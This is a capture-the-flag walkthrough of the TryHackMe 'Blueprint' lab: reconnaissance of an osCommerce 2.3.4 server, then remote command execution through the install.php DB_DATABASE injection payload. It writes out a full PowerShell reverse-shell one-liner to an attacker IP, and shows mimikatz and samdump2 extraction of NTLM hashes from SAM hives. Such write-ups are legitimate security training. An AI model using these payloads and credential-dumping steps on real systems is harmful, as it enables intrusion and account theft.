## Reconnaissance:

First of all, to understand whether machine live or not try to
`ping` it.

```
ping 10.10.118.119
```

The output should look like:


Add your ip address to `/etc/hosts` file.

```
nano /etc/host
```

Include your ip address the format provided below:




Before move on, I highly recommend you to check manually whether `web application` runs on `port 80/443` via browser. In most scenarios, we will not have https protocol.

```
//The route that you need to follow is:
http://blueprint.thm
```

This route automatically interact with HTTP protocol. Most of the time browsers have default routing mechanism directing to port 443. We should always try to route port 80 by just manually adding `http://`



Recently, I also tried to check `Apache` commonly running on port 8080:


As you can see above, we have an directory named `oscommerce-2.3.4`. I was curious about it ,so I searched about our Operating System commerce app.


It is clear that we should trigger RCE through web app. However, further reconnaissance is not harmful :) I also wanted to `fuzz` this route `http://blueprint:8080`

For the fuzzing, I thought that `dirsearch` and `dirb` will be suitable:

`Dirsearch` payload:

```
dirsearch -u http://blueprint.thm:8080
```



I just got `/server-status/`, `/server-info` paths. Capturing server data is useful for the architectural understanding. Let me extract what we have so far !


I was dealing with `Win32` architecture, `Apache` as a web server and for the backend `PHP` working on the machine. Furthermore, on `/oscommerce-2.3.4/docs/` path, there was a database dump. However, I could not reach any juicy information.




The `database scheme` pattern looks like `ER diagram`.

Nmap was beneficial to get extended data about application:

Nmap Payloads:
```
sudo nmap -sV -sC blueprint.thm

sudo nmap -sV -sC -p- blueprint.thm
```

Since I have already get what we need especially architecture of the application. I preferred to use only `default script` scan. Moreover, full port scan was not compatible on this scenario because it ran really slow. Anyway, let's check the `network mapper` output.



The results depicted that I did not check only the port `445` as known as `SMB` (Server Message Block).




`Nmap` script engine automatically run `default smb scripts` against on target. Lastly, checking the SMB will be crucial to get initial compromise since `nmap` script result revealed the potential discovery on `SMB`.

According to `HackTricks`, we can use `enum4linux` to enumerate the target:

[Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)



```
enum4linux -a 10.10.118.119
```

The most identical part of the `enum4linux` output was the `nbtstat information`.



Script could get the `Domain/Workgroup` named `WORKGROUP`. Let me try to authenticate it through without giving credentials.



```
	//IPC$ did not allow me to run any commands
	──(root㉿kali)-[/home/kali]
	└─# smbclient -U '%' -N \\\\10.10.118.119\\IPC$  
	Try "help" to get a list of possible commands.
	smb: \> dir
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> whoami
	whoami: command not found
	smb: \> ls
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> 
```

SMB did not give me useful findings. Therefore, I switched on exploitdb to get initial compromise.

[RCE](https://www.exploit-db.com/exploits/44374)


There was a web app based vulnerability occurs ,so let me apply this manually before I demonstrate all the ways to compromise machine.

Specifically, `PHP engine` shows an error the path `/install.php?step=4`. DB configuration error occured.



I intended to do directly manual without any tool ,but it did not work. That's why, lets run `manual exploit

Firstly, edit the `url` part of the script:


As you can see below, it did not work because the script automatically tried to execute `system('ls')` command on the OS.



However, the web app disabled such commands by default ,so lets run another payload from [Github](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)

To understand how the script works, I initially ran it just by giving any parameters and inputs.



Payload that I have used:

```
python3 osCommerce2_3_4RCE.py http://10.10.31.69:8080/oscommerce-2.3.4/catalog
```

Custom script directly injects the payload through the POST method on `install.php?step=4` and manipulating DB_DATABASE parameter to include `PHP command injection` by `passthru()` method. As you know, I could not use system(); method because of the web app restrictions.

Malicious payload:

```
'); passthru('whoami'); /*
```



Although there were not any privilege execution mechanism on script, I had straightforwardly get `NT AUTHORITY\SYSTEM`. However, still I could not move any paths directly on `OS`.



Hence, I also wanted to try again [`Exploit Db`](https://www.exploit-db.com/exploits/44374) Maybe I can upgrade my shell with `Powershell reverse shell`. Because of the script's iteration. I was not able to interact with shell properly. It only allowed me to show `current directory`.

The payload that I used:
```
powershell -NoProfile -Command "$client = New-Object System.Net.Sockets.TCPClient(\'10.11.69.113\',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Just change the IP address with your machine and port. You can generate your payloads from here:

[RevShell Generator](https://www.revshells.com/)

Now deploy `netcat listener`:

```
nc -lvnp 4444
```



You can directly paste when you prepare your payload as above. Then switch on the shell that you spawned.

You should wait at least `15 seconds` to ensure ready your upgraded `reverse shell`. That's all ! !



To get `LAB` user flag, you should use `Mimikatz` to get the `NTLM` hash of the user.

Upload `mimikatz.exe`:

deploy local python server
```
python -m http.server 3131
```

Since the target is x86 device known as 32bit:



Using `mimikatz32.exe` is compatible for us. 

Get the `root flag` from here:
![[TryHackMe/Blueprint/images/25.png]]

In windows, the registry in a binary file format store in `System32/config/` with name SAM, SECURITY , SYSTEM & Default.

![[TryHackMe/Blueprint/images/26.png]]

To decrypt NTLM hash we need three files: SAM, SYSTEM and SECURITY. So, I copied them.

![[27.png]]


After collect those file it need to hash dump to get hash value. Here, `samdump2` is best tool for hash dump.

![[28.png]]

The second portion after `:` colon indicates the NTLM of the user.

![[29.png]]
[CrackStation]()


That's all for me today guys ! !


May The Pentest Be With You ! !

